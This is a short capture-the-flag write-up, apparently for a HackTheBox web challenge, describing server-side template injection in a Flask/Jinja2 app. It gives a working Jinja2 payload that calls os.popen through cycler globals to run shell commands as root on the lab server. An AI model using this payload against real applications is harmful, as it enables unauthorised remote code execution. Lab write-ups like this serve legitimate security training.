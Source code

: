 ![image](https://user-images.githubusercontent.com/72671239/220068698-7877bbf4-a1b2-471e-b0cf-c490fbf25022.png)

once i noted that it uses Flask/jinja2 i thought of the SSTI, tested it and was confirmed
```bash
http://178.62.20.33:31990/{{ 7*7 }}
```
![image](https://user-images.githubusercontent.com/72671239/220067079-ec6adcc4-67d5-4a21-8dd4-f1c99108e9ec.png)

went through payload-all-things and got a payload that tests the os module to execute commands on the server
![image](https://user-images.githubusercontent.com/72671239/220065034-6b513ceb-a701-4b07-991a-cdf1766c439f.png)
![image](https://user-images.githubusercontent.com/72671239/220066582-9eda2518-1901-47fd-b42d-48f780210f83.png)
this indicates that we have root privligaes on the system, and also that the os module is enabled in this webapp, so in place of the 'id' command, we can execute any command

```bash
http://178.62.20.33:31990/{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```
![image](https://user-images.githubusercontent.com/72671239/220067663-29f24b8a-d612-41ae-8e84-74205af1ef57.png)
![image](https://user-images.githubusercontent.com/72671239/220068034-9df97d4f-9167-4d7d-8e1a-de529e02abba.png)

you can understand the ins and outs of this payload using this file [SSTI payload](https://github.com/olaayman999/HTB/blob/main/web-chsllenges/Templated/SSTI.md)



